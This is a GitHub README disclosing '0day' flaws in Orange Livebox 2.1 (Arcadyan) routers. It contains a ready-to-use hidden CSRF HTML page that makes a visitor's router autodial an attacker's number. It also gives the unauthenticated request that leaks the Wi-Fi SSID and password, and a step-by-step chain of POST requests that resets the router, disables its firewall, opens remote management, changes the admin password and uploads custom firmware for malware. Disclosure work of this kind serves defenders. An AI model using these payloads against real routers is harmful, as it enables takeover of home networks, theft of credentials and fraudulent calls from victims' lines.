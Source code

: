 # LIVEBOX-0DAY
Arcadyan ARV7519RW22-A-L T VR9 1.2 Multiple security vulnerabilities affecting Latest frmware release on ORANGE Livebox 2.1 routers

```
Versión de Firmware:  00.96.320S (01.11.2017-11:43:44)
Versión del Boot:  v0.70.03
Versión del Módem ADSL: 5.4.1.10.1.1A
Versión de Hardware:  02
```


**CWE-359**: *Exposure of Private Information ('Privacy Violation').*

A very serious attack vector allows an attacker to link CSRF drive-by vulnerabilities to exploit Autodialing and Line Test features, succesfully making calls from a victim's line, exposing a client's 	phone number and making him susceptible to scams and impersonation. Nuisance calls alone are also a serious concern.

` Proof of concept exploit: `  

``` html
<!DOCTYPE html>

<!-- Phone number disclosure, reflected call exploit -->

<html>

<iframe style="display:none" id="csrf-frame-invisible" name="csrf-frame-invisible"></iframe>
<form style="display:none" method='POST' action='http://192.168.1.1/cgi-bin/autodialing.exe' target="csrf-frame-invisible" name="csrf-form-invisible" id="csrf-form-invisible">
  <input type='hidden' name='autodialing_enable' value='1'>
  <input type='hidden' name='autodialing_number' value='5550150'> <!-- attacker's phone number goes here -->
  <input type='hidden' name='autodialing_timeout' value='0'>
  <input type='submit' value='Submit'>
</form>

<script>document.getElementById("csrf-form-invisible").submit()</script>

<img src="http://192.168.1.1/cgi-bin/phone_test.exe" width="0" height="0" border="0">

</html>
```

When the victim visits the malicious site, it will create an autodialing profile on the victim's modem, and activate the Line Test feature. No interaction needed. The phone will ring, and when the call is answered the autodialing feature will call the attacker's number. 





**CWE-200**: *Information Exposure: Unauthenticated configuration information leak.*

	The webserver leaks access point security protocol, SSID, and password in plain text.
	GET http://192.168.1.1/get_getnetworkconf.cgi

``` html
	<html>
	<body>
	Orange-SSID<BR>
	PASSWORD<BR>
	255.255.255.0<BR>
	192.168.1.1<BR>
	0<BR>
	WPA<BR>
	<BR>
	</body>
	</html>
```


**CWE-352**: *Cross-Site Request Forgery (CSRF): The web application does not, sufficiently verify whether a well-formed, valid, consistent request was intentionally provided by the user who submitted the request. Allows an attacker to manipulate all configuration parameters.*

```
Integrity Impact 	Complete. 	(There is a total compromise of system integrity. There is a complete loss of system protection, resulting in the entire system being compromised.)  
Availability Impact 	Complete.	(There is a total shutdown of the affected resource. The attacker can render the resource completely unavailable.)  
Access Complexity 	Low.		(Specialized access conditions or extenuating circumstances do not exist. Very little knowledge or skill is required to exploit. )  
Authentication 		None.		(The vulnerability does not require an attacker or user to be logged into the system).   
User interaction        None.  
```

	- Login with default admin:admin credentials after restoring configuration to factory settings. (This can be omited if the victim has an active session.)
	- Change default credentials.
	- Enable remote access.
	- Upload custom firmware to install remote access malware or brick the system.

	
	POST http://192.168.1.1/cgi-bin/restore.exe {empty body} Restores configuration to factory defaults.
	POST http://192.168.1.1/cgi-bin/firewall_SPI.exe {empty body} Disables all firewall protections.
	POST http://192.168.1.1/cgi-bin/setup_remote_mgmt.exe {IP1=FIRST_OCTET &IP2=SECOND_OCTET &IP3=THIRD_OCTET &IP4=FOURTH_OCTET &r_mgnt_port=_PORT } Allows remote administration. 
	POST http://192.168.1.1/cgi-bin/setup_pass.exe	{submit_action=0&userNew=admin&userOldPswd=admin&userNewPswd=NEWPASS&userConPswd=NEWPASS&timeout=0} Changes default password.
	POST http://192.168.1.1/cgi-bin/upgradep.exe Custom firmware update.




**CWE-912**: *Hidden Functionality. The software contains functionality that is not documented, not part of the specification, and not accessible through an interface or command sequence that is obvious to the software's users or administrators.*

Manual firmware update. Allows malware to be installed as described before.
	
	GET http://192.168.1.1/system_firmwarel.stm


---

This project is licensed under the MIT License - see the [LICENSE.md](LICENSE.md) file for details

**mapez** - [telegram](https://t.me/mapezz)
